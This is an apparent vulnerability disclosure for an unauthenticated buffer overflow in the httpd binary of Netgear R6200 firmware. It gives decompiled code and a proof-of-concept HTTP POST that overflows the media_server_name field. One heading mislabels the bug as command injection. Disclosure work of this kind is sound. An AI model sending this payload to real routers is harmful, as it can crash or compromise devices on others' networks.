 # Buffer Overflow Vulnerability in `UpnpMediaCgiMain`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6200 Router                                         |
| Firmware Version     | V1.0.1.58_1.0.44                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`UpnpMediaCgiMain` → `sub_496C80`) (data flow via `media_server_name`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `media_server_name` |

2. Exploitation Path

```c
int __fastcall UpnpMediaCgiMain(char *a1, int a2)
{
  _BYTE v5[128]; // [sp+18h] [-280h] BYREF
  char v6[256]; // [sp+98h] [-200h] BYREF
  char v7[256]; // [sp+198h] [-100h] BYREF
  ...
  websGetVar(a1, "media_server_name", v6);
  if ( !strchr(v6, 58) )
  {
    sub_496C80(v7);
    strcat(v6, v7);
  }
  ...
}

int __fastcall sub_496C80(char *a1)
{
  char v3[256]; // [sp+18h] [-100h] BYREF

  memset(v3, 0, sizeof(v3));
  if ( acosNvramConfig_match("board_id", "U12H127T00_NETGEAR") )
  {
    strcpy(v3, "WNR3500v2");
  }
  else if ( acosNvramConfig_match("board_id", "U12H127T70_NETGEAR") )
  {
    strcpy(v3, "WNR3500v2 VCNA");
  }
  else
  {
    strcpy(v3, "R6200");
  }
  return sprintf(a1, ": %s", v3);
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: In the `httpd` binary, the `UpnpMediaCgiMain` function at line 7 calls `websGetVar(a1, "media_server_name", v6)` to receive input. Although a 255-byte length restriction is enforced, no additional validation is performed. At line 10, the function `sub_496C80(v7)` generates a string `v7`, which may be `": WNR3500v2"`, `": WNR3500v2 VCNA"`, or `": R6200"`. This string is then concatenated to `v6` via `strcat(v6, v7)` at line 11, resulting in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/UpnpMediaCgiMain HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

media_server_name=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```